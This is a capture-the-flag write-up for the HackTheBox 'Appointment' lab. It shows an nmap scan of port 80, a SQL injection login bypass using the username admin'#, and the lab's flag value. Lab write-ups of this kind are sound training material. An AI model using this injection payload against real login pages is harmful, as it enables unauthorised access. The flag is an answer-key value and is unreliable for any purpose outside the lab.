 ## 🗓️ HTB Starting Point: Appointment  
**Level**: Very Easy  
**Date**: July 29, 2025  
**Goal**: Bypass a vulnerable login page using SQL injection to retrieve the flag.

---

### 🧰 Tools  
- `nmap`  
- Web browser  

---

### 🧭 Steps  

1. 🔎 **Scan port 80** with version detection:
   nmap -sS -sV -p 80 10.129.X.X

---

### Output
```PORT   STATE SERVICE VERSION  
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
```

---

2. 🌐 **Open the web page** in a browser:  
   Navigate to `http://10.129.X.X`  
   A login form is displayed.

---

3. 🧪 **Bypass login using SQL Injection**:  
```
   Username:admin'#
   Password: anything  
   ```

   → Login successful — redirected to the flag page.

---

4. 🏁 **Retrieve the flag from the page**:
`HTB{e3d0796d002a446c0e622226f42e9672}`

---

### 💣 Payloads Used  
```
nmap -sS -sV -p 80 10.129.X.X  
# Browser-based SQLi:  
# Username: admin'#  
# Password: anything
```

